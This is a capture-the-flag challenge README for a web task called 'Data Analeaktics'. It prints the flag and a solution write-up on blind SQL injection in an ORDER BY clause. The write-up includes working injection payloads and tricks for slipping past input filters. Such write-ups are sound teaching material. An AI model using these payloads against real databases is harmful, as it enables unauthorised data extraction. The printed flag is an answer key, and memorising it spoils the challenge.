

# Data Analeaktics

| Key            | Value                                                                                                                                     |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                                                                          |
| Author         | wolfishLamb                                                                                                                               |
| Category       | Web                                                                                                                                       |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked?                                              |
| Challenge Type | Dynamic Docker                                                                                                                            |
| Docker Image   | [jaredliw/sunctf_web_data-analeaktics](https://hub.docker.com/repository/docker/jaredliw/sunctf_web_data-analeaktics/general) (port 5004) |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                                                                      |
| Score          | 400                                                                                                                                       |

*File(s) in `attachments/` are distributed to the participants.*



## Solution

A special shoutout to [@dyangeng](https://github.com/dyangeng) for helping me develop this website.

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN (ASCII(SUBSTRING((select(value) from (flag)) from (1) for (1)))) div (116) then (id) else (name) end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
